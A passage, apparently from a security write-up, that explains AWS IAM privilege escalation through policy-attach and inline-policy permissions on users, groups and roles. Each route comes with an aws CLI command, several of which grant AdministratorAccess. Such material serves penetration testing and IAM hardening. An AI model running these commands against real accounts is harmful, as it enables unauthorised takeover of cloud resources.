 (Sure, an attacker could use any `$POLICY_ARN` here, but why not go for admin if you can get it? Which you can in this situation.)

## Attach a Policy to a Group

The iam:AttachGroupPolicy permission allows for a similar scenario as the above, but for groups rather than users. Example:

```
aws iam attach-group-policy --group-name $TARGET_GROUP \
	--policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

## Attach a Policy to a Role

The iam:AttachRolePolicy permission allows for a scenario like the last two, but for roles. Example:

```
aws iam attach-role-policy --role-name $TARGET_ROLE \
	--policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

Note that the attacker needs to control a user who has the sts:AssumeRole permission for that role in order to take advantage of this one.

## Set an Inline Policy for a User

The iam:PutUserPolicy permission allows an attack like attaching a policy to a user, except that an inline policy is written to that user instead. Example:

```
aws iam put-user-policy --user-name $TARGET_USER \
	--policy-name $POLICY_NAME --policy-document $POLICY_JSON_FILE
```

## Set an Inline Policy for a Group

You can guess what the iam:PutGroupPolicy lets you do by this point. Example:

```
aws iam put-group-policy --group-name $TARGET_GROUP \
	--policy-name $POLICY_NAME --policy-document $POLICY_JSON_FILE
```

## Set an Inline Policy for a Role

Another obvious one. Requires the iam:PutRolePolicy permission. Example:

```
aws iam put-role-policy --role-name $TARGET_ROLE \
	--policy-name $POLICY_NAME --policy-document $POLICY_JSON_FILE
```

As with other role-based privilege escalation routes, also requires that the user have the sts:AssumeRole permission for `$TARGET_ROLE`.
